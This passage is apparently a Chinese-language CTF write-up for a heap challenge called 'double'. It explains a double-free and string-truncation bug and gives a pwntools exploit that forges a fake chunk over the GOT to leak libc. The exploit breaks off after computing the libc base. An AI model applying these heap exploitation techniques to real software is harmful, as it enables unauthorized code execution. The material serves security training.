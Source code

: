 ```python
sleep(1)
p.send(p2)

p.interactive()
```
# double
这题放的比bms晚几秒...导致我直接上手bms错过了竞争这题的前几血的机会...
这题主要是逆向逆清楚了就知道了...虽然我当时心里急没咋逆清楚就上手了...就是调着调着就出来了

## Analysis
* 存在show但是每次输入被截断
* 没开`pie`,链表结构储存chunk
* 内容相同的话不再创建新的内容chunk而是直接指向#这里我没逆清楚我只知道 空状况下`add(A) add(A) add(B) free(0) free(2) free(1) `造成`double free `不过也够用了
* `edit`里用的是`memncpy`不会被0截断,`add`里面用的是`strncpy`会被截断...这个卡了我好久..一直以为都是`strncpy`

## 思路
* `double free `控制`bss` 盖掉`head_ptr`指向`bss` 上区域(因为我们不知道其他`address`)
* `edit` 上去一个 `fake_chunk` 其中的`ptr`指向`got`用来泄露 
* `show to leak`
* `edit to hijacking`
## exp
```python
from pwn import *
#context.log_level='debug'
def cmd(c):
	p.sendlineafter("> ",str(c))
def add(size,data="A"):
	cmd(1)
	p.sendlineafter("data:\n",data.ljust(size,'\x00'))
def show(idx):
	cmd(2)
	p.sendlineafter("dex: ",str(idx))
def edit(idx,c,size):
	cmd(3)
	p.sendlineafter("dex: ",str(idx))
	p.sendline(c.ljust(size,'\x00'))
def free(idx):
	cmd(4)
	p.sendlineafter("dex: ",str(idx))
p=process('./pwn')
#p=remote("39.106.224.151",40002)
add(0x67,'A')#0
add(0x67,"A")#1
add(0x67,'B')#2
add(0x17,'K')#3
free(0)
free(2)
free(1)
free(3)
add(0x67,p64(0x4040bd))
add(0x67,"B")
add(0x67,"C")
add(0x17,"A"*8+p64(0x000000000404018))
add(0x67,"AAA")
edit(0,"AAA"+p64(0x4040e0)*2+p64(0x6700000000)+p64(0x000000000404018),0x67)
show(0)
libc=ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
base=u64(p.readline()[:-1].ljust(8,'\x00'))-(0x7ffff7a914f0-0x7ffff7a0d000)
```